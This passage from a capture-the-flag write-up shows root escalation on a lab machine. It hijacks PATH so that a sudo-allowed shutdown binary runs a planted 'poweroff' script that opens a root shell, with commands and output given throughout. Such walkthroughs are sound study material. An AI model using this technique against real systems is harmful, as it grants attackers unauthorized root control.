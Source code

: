 ### Root

I checked the samba folder but nothing worth in there. I tried the typical `sudo -l` command to check if the user can use something interesting with `sudo` and this is what i got:

```
fox@year-of-the-fox:~$ sudo -l
Matching Defaults entries for fox on year-of-the-fox:
    env_reset, mail_badpass

User fox may run the following commands on year-of-the-fox:
    (root) NOPASSWD: /usr/sbin/shutdown
```

That `shutdown` binary could be interesting, let's check it out. I used `strings` to check if i can see something interesting and i saw that the binary use something called `poweroff` and use a relative `PATH` lets abuse that.

First i will execute `export PATH="$HOME:$PATH"` to add the user home folder to the `PATH` and i will create a script called `poweroff` in there:

```
#!/bin/bash

id
exit
```

This way this script will run instead of the proper binary. Let's try this PoC:

```
fox@year-of-the-fox:~$ shutdown 
uid=1000(fox) gid=1000(fox) groups=1000(fox),114(sambashare)
fox@year-of-the-fox:~$ sudo shutdown 
uid=0(root) gid=0(root) groups=0(root)
```

Cool, it worked. Let's edit the `poweroff` script a bit to get something more interesting:

```
#!/bin/bash

bash
exit
```

```
fox@year-of-the-fox:~$ sudo shutdown 
root@year-of-the-fox:~#
```
An we are now root nice, let's get that root flag and...

```
root@year-of-the-fox:/home/rascal# cat /root/root.txt 
Not here -- go find!
```

Really? Ok so let's check the rascal user home folder:

